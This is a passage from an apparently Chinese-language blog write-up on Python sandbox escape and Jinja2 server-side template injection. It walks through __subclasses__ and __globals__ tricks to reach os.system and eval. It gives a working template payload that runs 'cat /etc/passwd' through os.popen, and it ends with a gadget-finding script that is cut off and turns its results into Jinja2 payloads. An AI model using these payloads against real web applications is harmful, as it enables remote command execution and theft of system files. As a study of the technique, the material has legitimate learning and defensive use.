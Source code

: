 **wrapper是指这些函数并没有被重载，这时他们并不是function，不具有__globals__属性**。后来测试发现这个值跟类有没有初始化有关，如下·

```python
class test:
    test1 = 123
    def __init__(self) : self.test1 = 123
for index, i in enumerate({}.__class__.__base__.__subclasses__()):
    print(index,i.__init__)
```
结果
```python
137 <function test.__init__ at 0x0109CD68> # 因此他也具有了__globals__属性
```

上面只是自己证明了，怎样才会有__globals__属性和自定义的类所在的空间，对于利用来说，内置的类有的已经被初始化有了__globals__属性，可以直接利用。

**__globals__属性**
借用大佬的话就是 **python 解释器发现函数中的某个变量被 global 关键字修饰，就去函数的 \_\_globals__ 字典变量中寻找（因为 python 中函数也是一等对象）；同时，一个模块中每个函数的 \_\_globals__ 字典变量都是模块 \_\_dict__ 字典变量的引用，二者值完全相同。**

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3NoYW5rZTAwMS8tL21hc3Rlci9pbWcvMjAxOTA5MDEyMTE5NTEucG5n?x-oss-process=image/format,png)]
与此同时我发现了system函数，所以就不用再去调用 **\_\_builtins\_\_**
如下
```Python
{}.__class__.__base__.__subclasses__()[128].__init__.__globals__['system']('dir')
```
![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3NoYW5rZTAwMS8tL21hc3Rlci9pbWcvMjAxOTA5MDEyMTI3MDEucG5n?x-oss-process=image/format,png)
成功执行命令 **这个命令跟python版本有关，不同的版本其内置函数不同**

emmmm,system测试没有回显（伤心），于是按照 **\_\_builtins\_\_** 方法进行
**payload**

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='_wrap_close' %}
{{c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /etc/passwd').read()") }}
{% endif %}{% endfor %}
```

[外链图片转存失败(img-sIJWgbk3-1567425348157)(https://raw.githubusercontent.com/shanke001/-/master/img/20190901220258.png)]


最后贴出大佬的脚本，可以找出所有能利用点，而且还可以直接转化成符合jinja2语法的payload串

```python
#!/usr/bin/python3
# coding=utf-8
# python 3.5
from flask import Flask
from jinja2 import Template
# Some of special names
searchList = ['__init__', "__new__", '__del__', '__repr__', '__str__', '__bytes__', '__format__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__hash__', '__bool__', '__getattr__', '__getattribute__', '__setattr__', '__dir__', '__delattr__', '__get__', '__set__', '__delete__', '__call__', "__instancecheck__", '__subclasscheck__', '__len__', '__length_hint__', '__missing__','__getitem__', '__setitem__', '__iter__','__delitem__', '__reversed__', '__contains__', '__add__', '__sub__','__mul__']
neededFunction = ['eval', 'open', 'exec']
pay = int(input("Payload?[1|0]"))
for index, i in enumerate({}.__class__.__base__.__subclasses__()):
    for attr in searchList:
        if hasattr(i, attr):
            if eval('str(i.'+attr+')[1:9]') == 'function':
                for goal in neededFunction:
                    if (eval('"'+goal+'" in i.'+attr+'.__globals__["__builtins__"].keys()')):
                        if pay != 1:
                            print(i.__name__,":", attr, goal)
```
